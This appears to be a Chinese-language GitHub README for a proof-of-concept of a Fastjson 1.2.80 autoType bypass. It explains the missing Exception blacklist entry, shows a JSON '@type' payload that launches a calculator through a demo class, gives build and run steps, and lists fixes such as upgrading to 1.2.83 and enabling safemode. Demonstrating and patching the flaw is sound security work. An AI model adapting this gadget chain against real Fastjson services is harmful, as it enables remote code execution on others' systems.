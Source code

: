 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package` ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload ，如果弹出计算机则利用成功
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 卸载计算器 😂🤣
3. 开启safemode
   1. 开启方法如下  

   ![](images/safemode.png)